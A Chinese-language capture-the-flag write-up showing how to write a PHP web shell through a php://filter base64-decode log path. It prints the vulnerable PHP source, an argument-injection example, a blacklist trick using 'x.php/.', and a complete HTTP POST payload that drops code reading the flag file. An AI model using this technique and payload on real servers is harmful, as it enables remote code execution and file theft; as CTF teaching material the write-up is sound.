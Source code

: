 # 利用php://filter绕过限制写入文件


### 一.	CTF题目

```php
<?php
if(isset($_GET['read-source'])) {
    exit(show_source(__FILE__));
}

define('DATA_DIR', dirname(__FILE__) . '/data/' . md5($_SERVER['REMOTE_ADDR']));

if(!is_dir(DATA_DIR)) {
    mkdir(DATA_DIR, 0755, true);
}
chdir(DATA_DIR);

$domain = isset($_POST['domain']) ? $_POST['domain'] : '';
$log_name = isset($_POST['log']) ? $_POST['log'] : date('-Y-m-d');
?>
<!doctype html>
<html lang="en">
<head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/css/bootstrap.min.css" integrity="sha256-eSi1q2PG6J7g7ib17yAaWMcrr5GrtohYChqibrV7PBE=" crossorigin="anonymous">

    <title>Domain Detail</title>
    <style>
    pre {
        width: 100%;
        background-color: #f6f8fa;
        border-radius: 3px;
        font-size: 85%;
        line-height: 1.45;
        overflow: auto;
        padding: 16px;
        border: 1px solid #ced4da;
    }
    </style>
</head>
<body>

<div class="container">
    <div class="row">
        <div class="col">
            <form method="post">
                <div class="input-group mt-3">
                    <div class="input-group-prepend">
                        <span class="input-group-text" id="basic-addon1">dig -t A -q</span>
                    </div>
                    <input type="text" name="domain" class="form-control" placeholder="Your domain">
                    <div class="input-group-append">
                        <button class="btn btn-outline-secondary" type="submit">执行</button>
                    </div>
                </div>
            </form>
        </div>
    
    </div>

    <div class="row">
        <div class="col">
            <pre class="mt-3"><?php if(!empty($_POST) && $domain):
                $command = sprintf("dig -t A -q %s", escapeshellarg($domain));
                $output = shell_exec($command);

                $output = htmlspecialchars($output, ENT_HTML401 | ENT_QUOTES);

                $log_name = $_SERVER['SERVER_NAME'] . $log_name;
                if(!in_array(pathinfo($log_name, PATHINFO_EXTENSION), ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'], true)) {
                    file_put_contents($log_name, $output);
                }

                echo $output;
            endif; ?></pre>
        </div>
    </div>

</div>

</body>
</html> 1
```

有两个可疑的漏洞点：1.拼接参数"domain"后执行dig命令2.拼接参数"log"后写入日志文件

```php
...
  $command = sprintf("dig -t A -q %s", escapeshellarg($domain));
  $output = shell_exec($command);
  $output = htmlspecialchars($output, ENT_HTML401 | ENT_QUOTES)
  $log_name = $_SERVER['SERVER_NAME'] . $log_name;
  if(!in_array(pathinfo($log_name, PATHINFO_EXTENSION), ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'], true)) {
        file_put_contents($log_name, $output);
  }
...
```



### 二.	解题思路

#### 1.拼接参数"domain"后执行dig命令：

* 在Linux中是可以通过"command1&command2"、"command1&&command2"、"command1|command2"和"command1;command2"的方式来执行command2。但这里有个过滤函数**escapeshellarg()** —— **escapeshellarg()** 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数。绕过的方式就是参数注入，例如gitlist远程命令执行漏洞：

  ```git
  git grep -i --line-number '--open-files-in-pager=id'
  ```

  攻击者输入的字符串被当成了参数执行，导致了漏洞。但这个绕过方式有两点要求：1.该命令存在某个参数，使得该参数的值会被执行2.输入的字符串要放在参数选项的位置而不是参数值的位置。而题目显然不符合这两点要求

#### 2.拼接参数"log"后写入日志文件：这里有两个过滤点

* **htmlspecialchars()**。**htmlspecialchars()** 会将预定义的特殊字符转义为实体编码，这其中就包括php文件必需的尖括号。这个过滤是无法像构建特殊语句绕过正则一样直接绕过的，但是"php://filter"中有个转换过滤器 —— "convert.base64-decode"，可以将数据流进行base64解码。所以我们可以将代码进行base64编码然后借助"php://filter/convert.base64-decode/resource=filename.php"的方式绕过**htmlspecialchars()**。为了确保base64正确解码出输入的代码，需要确保输入之前的有效字符个数为4的倍数(因为base64解码是以四个字符为一组，自动跳过无效的字符)。查看下返回值，之前的字符为

  ```html
  ; &lt;&lt;&gt;&gt; DiG 9.9.5-9+deb8u15-Debian &lt;&lt;&gt;&gt; -t A -q
  ```

  去掉无效的字符后为"ltltgtgtDiG9959+deb8u15DebianltltgtgttAq"长度刚好为40，所以无需填充字符。另外base64编码后的等号只会出现在结尾(填充位)，构造的payload不能包含等号。在实际操作中遇到一个小坑，在最后一步读取Flag时传入"PD9waHAgZWNobyByZWFkZmlsZSgiL3Zhci93d3cvZmxhZ19waHBtYWcxY191cjEiKTsvKmFh"返回为空，在本地测试后发现当dig命令的"-q"参数的参数值长度超过63时会产生错误：

  ![error](error.png)

  所以需要简化payload："<?=\`cat /var/www/flag_phpmag1c_ur1`;/*a"

* 黑名单过滤"['php', 'php3', 'php4', 'php5', 'phtml', 'pht']"。这里需要用到一个技巧"filename.php/." => "filename.php"，因为php在进行路径处理的时候，会递归删除掉路径中的"/."

最终的payload如下：

```http
POST / HTTP/1.1
Host: php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://51.158.75.42:8082/
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Connection: close
Upgrade-Insecure-Requests: 1

domain=PD89YGNhdCAvdmFyL3d3dy9mbGFnX3BocG1hZzFjX3VyMWA7Lyph&log=%3A%2F%2Ffilter%2Fconvert.base64-decode%2Fresource%3D%2Fvar%2Fwww%2Fhtml%2Fdata%2Ff528764d624db129b32c21fbca0cb8d6%2Fx.php%2F.
```

![flag](flag.png)
